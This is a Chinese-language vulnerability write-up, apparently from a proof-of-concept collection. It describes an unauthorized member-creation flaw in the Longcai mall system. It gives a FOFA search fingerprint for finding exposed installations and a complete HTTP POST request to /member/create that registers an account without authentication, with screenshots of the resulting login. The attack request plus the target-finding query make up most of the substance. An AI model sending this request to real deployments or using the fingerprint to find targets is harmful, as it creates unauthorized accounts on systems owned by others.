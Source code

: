 # 龙采商城系统存在未授权添加会员登录

### 一、漏洞描述
龙采科技集团有限责任公司龙采商城系统存在未授权漏洞可在未登录后台的情况下请求POC添加会员并登录。

### 二、影响版本
龙采商城系统

### 三、资产测绘
FOFA：body="'url':'/pc2.0/index/index'"

### 四、漏洞复现
攻击前无法登录会员（15712341234/123456ys），请求POC攻击后即可正常登录会员。

![1715915610877-c3de95a7-b27b-48db-abeb-35981520445c.jpeg](./img/ye2mTZUMWNMKHS1X/1715915610877-c3de95a7-b27b-48db-abeb-35981520445c-974942.jpeg)构造POC进行发送

```plain
POST /member/create HTTP/2
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 116

phone=15712341234&password=123456ys&confirm_password=123456ys&add_money=&add_integral=&sex=1&status=1&usable_money=0
```

![1715915618660-8321c8a1-17ab-4bd2-b842-18e3f63fd5bf.jpeg](./img/ye2mTZUMWNMKHS1X/1715915618660-8321c8a1-17ab-4bd2-b842-18e3f63fd5bf-342096.jpeg)

成功登录![1715915626466-79d25afd-a7ea-4f99-97f7-ee600b1468c6.jpeg](./img/ye2mTZUMWNMKHS1X/1715915626466-79d25afd-a7ea-4f99-97f7-ee600b1468c6-903320.jpeg)![1715915629687-e26c8582-fde8-470b-a967-edc217770e10.jpeg](./img/ye2mTZUMWNMKHS1X/1715915629687-e26c8582-fde8-470b-a967-edc217770e10-933378.jpeg)



> 更新: 2024-06-01 11:14:23  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ghwoi5bmulblbabu>